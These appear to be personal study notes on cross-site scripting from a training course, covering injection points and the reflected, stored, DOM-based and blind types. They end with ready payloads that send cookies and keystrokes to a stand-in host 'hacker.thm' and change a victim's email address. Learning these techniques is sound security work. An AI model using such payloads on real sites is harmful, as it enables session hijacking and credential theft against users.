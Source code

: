 				Attack Vectors

-- Customizable Themes & Profiles via CSS
-- Event or meeting names
-- URI based
-- Imported from a 3rd party (think Facebook integration)
-- JSON POST Values (check returning content type)
-- File Upload names
-- Uploaded files (swf, HTML, ++)
-- Custom Error pages
-- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
-- Login and Forgot password forms

				Reflected XSS
-- supplied data in an HTTP request is included in the webpage source without any validation.	

-- Parameters in the URL Query String
-- URL File Path
-- Sometimes HTTP Headers


				Stored XSS
				
-- the XSS payload is stored on the web application and then gets run when other users visit the site or web page.

-- Comments on a blog
-- User profile information  
-- Website Listings

				Dom Based XSS
		
--JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

-- Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or the user's session.
				
				Blind XSS
				
-- your payload gets stored on the website for another user to view, but you can't see the payload working or be able to test it against yourself first.

-- xsshunter

				Payloads

-- Session Stealing
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

-- Key logger 
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

-- Business Logic
<script>user.changeEmail('attacker@hacker.thm');</script>

-- polyglots
string of text which can escape attributes, tags and bypass filters all in one.

				Beef Framwork